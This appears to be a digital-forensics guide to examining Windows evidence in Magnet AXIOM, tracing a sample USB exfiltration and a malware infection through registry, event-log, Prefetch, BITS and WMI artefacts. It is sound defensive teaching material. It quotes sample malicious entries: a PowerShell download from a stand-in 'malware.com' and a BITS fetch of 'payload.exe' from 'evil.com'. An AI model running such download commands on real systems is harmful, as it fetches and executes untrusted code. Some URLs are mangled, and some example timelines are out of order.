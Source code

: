 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Axiom Cyber Examiner

#### **Getting Started in AXIOM Examine** Objective: Orient yourself to the Windows evidence.

* #### Open Case: Load your processed Windows.mfdb file.
* Dashboard: Check artefact categories—e.g., “Windows Artefacts” (Registry, Prefetch), “PowerShell,” “Event Logs”—to scope the data.
* Key Views:
  * Artefact Explorer: Parsed data (e.g., USB history, Amcache).
  * File System Explorer: Raw files (C:\Windows\System32).
  * Timeline: Chronological events.
  * Connections: Entity relationships.

Example: Dashboard shows 1,000+ “Event Log” hits, 50 “PowerShell” entries, and 10 “USB Device” connections—prioritise accordingly.&#x20;

#### Core Analysis Workflow (Windows-Specific) Objective: Investigate systematically with Windows artefacts.

#### Step 1: Define Goals

* Example: “Did ‘jdoe’ exfiltrate ‘Q1Report.docx’ via USB on 15 January 2025?”

Step 2: Explore Key Windows Artefacts

* Windows Registry:
  * Location: Artefact Explorer > Windows > Registry.
  * Hives:
    * H<mark style="color:green;">KLM\SYSTEM\CurrentControlSet\Enum\USBSTOR</mark>: USB details (serial, connect time).
    * <mark style="color:green;">HKU\\\[SID]\Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs</mark>: Recent files.
    * <mark style="color:green;">HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run</mark>: Autorun persistence.
  * Example: <mark style="color:green;">USBSTOR</mark> shows serial “1234ABCD” connected “2025-01-15 14:32:21 UTC.”
* Event Logs:
  * Location: Artefact Explorer > Windows > Event Logs.
  * Logs:
    * Security.evtx: Logons (ID 4624), failures (ID 4625).
    * System.evtx: Startups (ID 6005), service installs (ID 7045).
    * Application.evtx: App crashes or anomalies.
  * Example: ID 4624 logs “jdoe” at “14:30:00 UTC.”
* Prefetch Files:
  * Location: Artefact Explorer > Windows > Prefetch.
  * Purpose: Programme execution evidence.
  * Example: “WINRAR.EXE-1A2B3C4D.pf” ran “14:35:10 UTC,” referencing “Q1Report.zip.”
* LNK Files and Jump Lists:
  * Location: Artefact Explorer > Windows > LNK Files, Jump Lists.
  * Purpose: File access history.
  * Example: “Q1Report.docx.lnk” accessed “14:34:50 UTC.”
* Shimcache:
  * Location: Artefact Explorer > Windows > Shimcache.
  * Purpose: Historical executions.
  * Example: “cmd.exe” ran “14:36:00 UTC.”
* PowerShell Logs:
  * Location: Artefact Explorer > Windows > PowerShell.
  * Logs: Event ID 4104 (Script Block Logging), 4103 (command execution).
  * Example: “Invoke-WebRequest -Uri ‘[http://malware.com’”](http://malware.xn--com-to0aua) logged at “14:38:00 UTC.”
* Amcache:
  * Location: Artefact Explorer > Windows > Amcache.
  * Purpose: Tracks executable metadata (SHA1, install time).
  * Example: “notepad.exe” SHA1 matches a known dropper, executed “14:37:00 UTC.”
* BITS:
  * Location: Artefact Explorer > Windows > BITS Jobs.
  * Purpose: Background file transfers (e.g., malware downloads).
  * Example: BITS job downloaded “payload.exe” from “[http://evil.com”](http://evil.xn--com-9o0a) at “14:39:00 UTC.”
* WMI:
  * Location: Artefact Explorer > Windows > WMI.
  * Purpose: Persistence or remote execution (e.g., WMI Event Consumers).
  * Example: “WmiPrvSE.exe” triggered “cmd.exe” at “14:40:00 UTC.”
* SRUM:
  * Location: Artefact Explorer > Windows > SRUM.
  * Purpose: App usage and network activity.
  * Example: “winrar.exe” used 50MB at “14:35:00 UTC.”

Step 3: Build a Timeline

* Steps: Timeline view > Filter “2025-01-15 14:00:00 - 15:00:00 UTC” > Add “Event Logs,” “Prefetch,” “LNK,” "USB," and “PowerShell.”
* Example: Logon (14:30) → File access (14:34) → WinRAR (14:35) → USB (14:32).

Step 4: Correlate with Connections

* Steps: Tag “jdoe” and “1234ABCD” as Profiles > Map links (e.g., “jdoe” to “Q1Report.zip” to USB).
* Example: Visual confirms “jdoe” tied to file and USB.

#### Advanced Windows Analysis TechniquesObjective: Tackle complex or obscured evidence.

* Keyword Search:
  * Steps: Search > “Q1Report” or regex (e.g., \b\[A-Za-z0-9]{8}\b for serials).
  * Example: Hits in LNK, RecentDocs, and carved “Q1Report.zip.”
* File System Deep Dive:
  * Steps: File System Explorer > C:\Windows\System32\winevt\Logs or unallocated space.
  * Example: Recover deleted “cmd.exe-5D6E7F8G.pf” from unallocated space.
* Memory Analysis:
  * Steps: Artefact Explorer > Memory > Check processes and network connections.
  * Example: “cmd.exe” spawned “ftp.exe” at “14:37:00 UTC.”
* AXIOM Power Features:
  * Custom Artefacts: Define new parsers (e.g., for custom app logs) via AXIOM’s Artefact Definition tool.
  * Scripting: Batch tag artefacts with Python (e.g., all “PowerShell” hits as “suspicious”).
  * Example: Script tags 50 PowerShell commands in 10 seconds.
* Edge Cases:
  * Wiped Logs: Pivot to MFT (File System Explorer > $MFT) for file timestamps or memory for process history.
    * Example: MFT shows “Q1Report.zip” last modified “14:35:15 UTC” despite cleared logs.
  * Encrypted Drives: If BitLocker-locked, use the recovery key (if available) during acquisition; otherwise, analyse memory or cloud sync logs.
    * Example: OneDrive log shows “Q1Report.zip” uploaded “14:45:00 UTC.”

#### Interpreting Windows Evidence

* Context: USB + LNK + Prefetch = likely exfiltration.
  * Example: “Q1Report.zip” (14:35) + USB (14:32) suggests data theft.
* False Positives: Ignore “svchost.exe” Prefetch unless tied to user actions.
* Anomalies: Off-hours logins (e.g., 2:00 AM on 10 January) or rare tools (e.g., “psexec.exe”).

#### Reporting Windows Findings

* Tagging: Tag “Exfiltration Evidence” (USB, LNK).
* Visuals: Export Timeline PNG (14:30-14:40).
* Report: PDF with artefacts, notes, and raw logs (e.g., “ID 4624, jdoe, 14:30”).
* Portable Case: Share.mfc for collaboration.

#### Scenario Examples

* Insider Theft:
  * Findings: Logon (14:30)→ “Q1Report.docx” (14:34)→ WinRAR (14:35)→ USB “1234ABCD” (14:32).
  * Conclusion: “jdoe” exfiltrated data.
* Malware Infection:
  * Findings: BITS job downloads “payload.exe” (14:39) → Amcache logs execution (14:40) → PowerShell “Invoke-WebRequest” (14:38) → WMI persistence (14:40) → SRUM shows network spike (14:41).
  * Timeline:
    * 14:38: PowerShell downloads malware.
    * 14:39: BITS completes the transfer.
    * 14:40: WMI triggers execution.
  * Conclusion: Malware deployed via the web and persisted via WMI.

#### External Tool Integration

* Volatility: Export memory dump (File System Explorer) > Analyse with PSList or NetScan.
  * Example: “ftp.exe” connected to “192.168.1.100” confirms exfiltration.
* RegRipper: Export hives (e.g., SYSTEM) > Parse for deeper USB or Run key details.
  * Example: RegRipper finds “payload.exe” in Run key missed by AXIOM.

#### Validation

* Cross-Check: Registry USB times vs. raw USBSTOR hive.
* Raw Data: Export Security.evtx for external parsing (e.g., Event Log Explorer).

#### Windows-Specific Tips

* Filters: Exclude “SYSTEM” logons unless relevant.
* Registry Pivot: From USBSTOR to MountedDevices for drive letters.
* Batch Export: Multi-select Event Logs to CSV.

***
